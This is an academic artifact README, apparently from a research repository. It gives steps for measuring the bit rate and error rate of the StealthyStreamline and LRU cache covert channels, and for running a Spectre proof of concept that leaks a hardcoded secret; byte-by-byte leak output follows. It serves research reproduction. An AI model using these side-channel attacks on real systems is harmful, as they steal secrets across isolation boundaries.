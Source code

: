 # Figure 6: Bit rate of the StealthyStreamline attack and the LRU address-based attack 

The following experiment is performed on the given [ssh host](server.md) with Intel E5-2686v2 CPU. Unfortunately we cannot provide ssh access on other three Intel CPUs shown in the paper. A new machine needs additional calibration.

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
```

## use the script to build all the code

```
$ build.sh
```

## measure the LRU attack bandwidth and error rate

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ cd covert_channel_LRU_1thread_8way
$ bash run.sh
$ cd test
$ ../../process_error_rate_1thread/Error_rate_HW_LRU
```

This step will generate ```Error_rate_s_i.txt``` files. The last line of the file shows the error rate）
Currently, the threshold in process_error_rate_1thread is set for the fukushima machine. If we want to test on more machines, the threshold should be modified.


## measure the StealthyStreamline attack bandwidth and error rate

```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ cd covert_channel_stream_1thread_2bits_8way
$ bash run.sh
$ cd test
$ ../../process_error_rate_1thread/Error_rate_strem_2bit 
```

## plot the figure

```
$ cd ${GIT_ROOT}/src/stealthy_streamline/plot
$ python plot_error_rate.py
```
which will generate ```stealthy_streamline_error.png``` in the current directory. 

Which looks like

![](../../fig/stealthy_streamline_error.png)

We can observe that StealthyStreamline (SS) in green has higher max bit rate than LRU in blue line.

## running Spectre attack with SteathyStreamline

StealthyStreamline can be used to commit the Spectre attack's state into caches efficiently, here we demonstrate it.
Given the secret ```The_Magic Words_are_12390+mish_Ossifrage``` (which is hardcoded in [```main.c```](../../src/stealthy_stream/spectre_stream/main.c)), we can use Spectre to exact the secret.


```
$ cd ${GIT_ROOT}/src/stealthy_streamline
$ ./SSspectre 
```

The output looks like the following. Where for each reading, one alphabet of the secret is extracted.

```
$ ./SSspctre 
Reading 39 bytes:
Reading at malicious_x = 0xffffffffffdff3c8... 
Unclear: 0x54 84=’T’ score=866 (second best: 0x54 � score=671)
Reading at malicious_x = 0xffffffffffdff3c9... 
Unclear: 0x68 104=’h’ score=995 (second best: 0x68 - score=781)
Reading at malicious_x = 0xffffffffffdff3ca... 
Unclear: 0x65 101=’e’ score=999 (second best: 0x65 m score=691)
Reading at malicious_x = 0xffffffffffdff3cb... 
Unclear: 0x5F 95=’_’ score=995 (second best: 0x5F - score=812)
Reading at malicious_x = 0xffffffffffdff3cc... 
Unclear: 0x4D 77=’M’ score=998 (second best: 0x4D - score=699)
Reading at malicious_x = 0xffffffffffdff3cd... 
Unclear: 0x61 97=’a’ score=1000 (second best: 0x61 � score=951)
Reading at malicious_x = 0xffffffffffdff3ce... 
Unclear: 0x67 103=’g’ score=998 (second best: 0x67 - score=712)
Reading at malicious_x = 0xffffffffffdff3cf... 
Unclear: 0x69 105=’i’ score=962 (second best: 0x69 � score=642)
Reading at malicious_x = 0xffffffffffdff3d0... 
Unclear: 0x63 99=’c’ score=997 (second best: 0x63 m score=706)
Reading at malicious_x = 0xffffffffffdff3d1... 
Unclear: 0x20 32=’ ’ score=1000 (second best: 0x20 - score=881)
Reading at malicious_x = 0xffffffffffdff3d2... 
Unclear: 0x57 87=’W’ score=999 (second best: 0x57 - score=762)
Reading at malicious_x = 0xffffffffffdff3d3... 
Unclear: 0x6F 111=’o’ score=908 (second best: 0x6F m score=820)
Reading at malicious_x = 0xffffffffffdff3d4... 
Unclear: 0x2D 45=’-’ score=786 (second best: 0x2D r score=714)
Reading at malicious_x = 0xffffffffffdff3d5... 
Unclear: 0x64 100=’d’ score=997 (second best: 0x64 - score=855)
Reading at malicious_x = 0xffffffffffdff3d6... 
Unclear: 0x73 115=’s’ score=906 (second best: 0x73 - score=860)
Reading at malicious_x = 0xffffffffffdff3d7... 
Unclear: 0x5F 95=’_’ score=997 (second best: 0x5F - score=826)
Reading at malicious_x = 0xffffffffffdff3d8... 
Unclear: 0x61 97=’a’ score=1000 (second best: 0x61 - score=671)
Reading at malicious_x = 0xffffffffffdff3d9... 
Unclear: 0x72 114=’r’ score=733 (second best: 0x72 - score=716)
Reading at malicious_x = 0xffffffffffdff3da... 
Unclear: 0x65 101=’e’ score=999 (second best: 0x65 - score=862)
Reading at malicious_x = 0xffffffffffdff3db... 
Unclear: 0x5F 95=’_’ score=999 (second best: 0x5F - score=787)
Reading at malicious_x = 0xffffffffffdff3dc... 
Unclear: 0x31 49=’1’ score=973 (second best: 0x31 - score=723)
Reading at malicious_x = 0xffffffffffdff3dd... 
Unclear: 0x32 50=’2’ score=994 (second best: 0x32 m score=799)
Reading at malicious_x = 0xffffffffffdff3de... 
Unclear: 0x33 51=’3’ score=951 (second best: 0x33 - score=838)
Reading at malicious_x = 0xffffffffffdff3df... 
Unclear: 0x39 57=’9’ score=985 (second best: 0x39 m score=826)
Reading at malicious_x = 0xffffffffffdff3e0... 
Unclear: 0x30 48=’0’ score=996 (second best: 0x30 - score=738)
Reading at malicious_x = 0xffffffffffdff3e1... 
Unclear: 0x2B 43=’+’ score=1000 (second best: 0x2B - score=858)
Reading at malicious_x = 0xffffffffffdff3e2... 
Unclear: 0x6D 109=’m’ score=857 (second best: 0x6D - score=739)
Reading at malicious_x = 0xffffffffffdff3e3... 
Unclear: 0x69 105=’i’ score=964 (second best: 0x69 - score=697)
Reading at malicious_x = 0xffffffffffdff3e4... 
Unclear: 0x73 115=’s’ score=882 (second best: 0x73 m score=838)
Reading at malicious_x = 0xffffffffffdff3e5... 
Unclear: 0x68 104=’h’ score=995 (second best: 0x68 - score=733)
Reading at malicious_x = 0xffffffffffdff3e6... 
Unclear: 0x5F 95=’_’ score=1000 (second best: 0x5F - score=676)
Reading at malicious_x = 0xffffffffffdff3e7... 
Unclear: 0x4F 79=’O’ score=996 (second best: 0x4F - score=632)
Reading at malicious_x = 0xffffffffffdff3e8... 
Unclear: 0x73 115=’s’ score=878 (second best: 0x73 - score=730)
Reading at malicious_x = 0xffffffffffdff3e9... 
Unclear: 0x2D 45=’-’ score=944 (second best: 0x2D s score=906)
Reading at malicious_x = 0xffffffffffdff3ea... 
Unclear: 0x69 105=’i’ score=850 (second best: 0x69 - score=733)
Reading at malicious_x = 0xffffffffffdff3eb... 
Unclear: 0x66 102=’f’ score=998 (second best: 0x66 - score=881)
Reading at malicious_x = 0xffffffffffdff3ec... 
Unclear: 0x6D 109=’m’ score=789 (second best: 0x6D - score=785)
Reading at malicious_x = 0xffffffffffdff3ed... 
Unclear: 0x61 97=’a’ score=999 (second best: 0x61 - score=907)
Reading at malicious_x = 0xffffffffffdff3ee... 
Unclear: 0x67 103=’g’ score=999 (second best: 0x67 - score=812)
```


